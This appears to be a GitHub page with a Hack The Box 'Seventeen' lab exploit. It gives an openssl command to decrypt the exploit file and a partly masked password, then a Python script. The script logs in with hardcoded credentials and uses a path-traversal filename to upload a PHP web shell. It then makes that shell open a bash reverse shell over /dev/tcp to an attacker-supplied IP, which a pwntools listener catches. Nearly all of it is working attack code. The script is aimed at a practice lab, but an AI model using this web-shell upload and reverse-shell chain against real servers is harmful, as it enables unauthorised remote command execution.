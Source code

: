 ```openssl enc -d -aes-256-cbc -salt -pbkdf2 -in exploit.py.enc -out exploit.py```

Pass: 2020****************

```python
import requests
import os
import time
from pwn import *

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <IP> <PORT>")
    exit()

def shellUpload():
    login = {
            'stud_no': '31234',
            'password': 'autodestruction',
            'login': ''
            }
    sess = requests.Session()
    sess.post("http://exam.seventeen.htb:8000/oldmanagement/", data=login)
    phpid = sess.cookies.get_dict()
    phpid = phpid.get('PHPSESSID')
    cookies = {'PHPSESSID': phpid}
    headers = {'Content-Type': 'multipart/form-data; boundary=---------------------------377972973213553088171847731505'}
    #print(cookies)
    data = '-----------------------------377972973213553088171847731505\r\nContent-Disposition: form-data; name="file"; filename="../shell3.php"\r\nContent-Type: application/x-php\r\n\n <?php system($_GET[\'cmd\']);?>\n\r\n-----------------------------377972973213553088171847731505\r\nContent-Disposition: form-data; name="stud_no"\r\n\r\n31234../../\r\n-----------------------------377972973213553088171847731505\r\nContent-Disposition: form-data; name="save"\r\n\r\n\r\n-----------------------------377972973213553088171847731505--\r\n'
    response = requests.post('http://exam.seventeen.htb:8000/oldmanagement/save_file.php', cookies=cookies, data=data, headers=headers)
    #print(response.text)
    time.sleep(2)
    url = "http://exam.seventeen.htb:8000/oldmanagement/files/shell3.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/{}/{}+0>%261'".format(sys.argv[1], sys.argv[2])
    e=requests.get(url)
    print(e.text)   
    return

def ShellStart():
    r = listen(sys.argv[2], timeout=10).wait_for_connection()
    r.sendline(b"whoami")
    r.interactive()

t = threading.Thread(target=ShellStart)
t.start()

shellUpload()
```
